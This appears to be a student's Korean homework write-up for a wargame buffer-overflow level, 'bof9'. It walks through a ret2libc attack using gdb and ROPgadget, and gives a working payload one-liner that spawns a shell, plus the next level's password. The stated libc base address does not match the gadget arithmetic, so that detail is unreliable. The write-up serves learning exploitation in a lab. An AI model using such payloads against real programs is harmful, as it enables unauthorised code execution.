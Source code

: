 # HW-8
## bof9

먼저 `gdb bof9`에서 `vmmap`를 통해 보면 'stack'에 실행 권한이 없다는 것을 알 수 있다.

![84](84.PNG)

그러므로 지금까지 했던 방법으로는 쉘을 열 수가 없다. 그래서 이번엔 'libc.so'에 있는 함수를 통해 쉘을 열어야 하는데

1. 'system 함수'의 주소를 알아내야 한다.
2. '/bin/sh'의 주소를 'rdi'에 넣어준다.

system 주소는 `p system`으로 볼 수 있다.

![82](82.PNG)

system 주소 : *0x7ffff7a52390*

/bin/sh 주소는 `search-pattern /bin/sh`로 볼 수 있다.

![83](83.PNG)

/bin/sh 주소 : *0x7ffff7b99d57*

그리고 위치는 *tmp/2.23/libc.so.6* 이다.

그리고 buf와 return address의 거리를 저번과 같은 방법으로 알아본다.

'vuln 함수'를 들어가자마자 'rsp'를 보면 return address의 거리가 나온다.

![81](81.PNG)

 return address : *0x00007fffffffe4b8* 

 'gets 함수'의 'rdi'는 buf의 주소이다.

 ![85](85.PNG)

buf 주소 : *0x00007fffffffe4a8* 

이 둘의 거리는 *16* 이다.

이제, rdi에 /bin/sh을 넣어줘야 하는데, 'pop rdi ; ret' 를 사용하면 된다. 

![86](86.PNG)

`ROPgadget.py --binary /tmp/2.23/lib/libc.so.6 | grep 'pop rdi ; ret` 를 사용하면 찾아주는데, 이 중 *0x0000000000021102를 사용한다. 하지만 이 주소는 libc의 시작 주소에서 이만큼 떨어져 있다는 의미이다. 그래서 다시 'gdb' 의 'vmmap'로 들어가서

![84](84.PNG)

libc.so.6 의 시작 주소는 0x0000555555555000 이고, 여기서 아까 구한 값을 더해주면 'pop rdi ; ret'의 주소를 알 수 있다.

pop rdi ; ret 주소 : *0x7ffff7a2e102*

이제, 함수를 실행할 때 16byte를 채워주고, 'pop rdi ; ret' 주소, '/bin/sh' 주소 , 'system' 주소를 넣어주면 된다.

```
(python -c "print 'x'*16+'\x02\xe1\xa2\xf7\xff\x7f\x00\x00'+'\x57\x9d\xb9\xf7\xff\x7f\x00\x00'+'\x90\x23\xa5\xf7\xff\x7f\x00\x00'";cat) | ./bof9
```

bof10의 비밀번호는 **120bf293** 이다.

![87](87.PNG)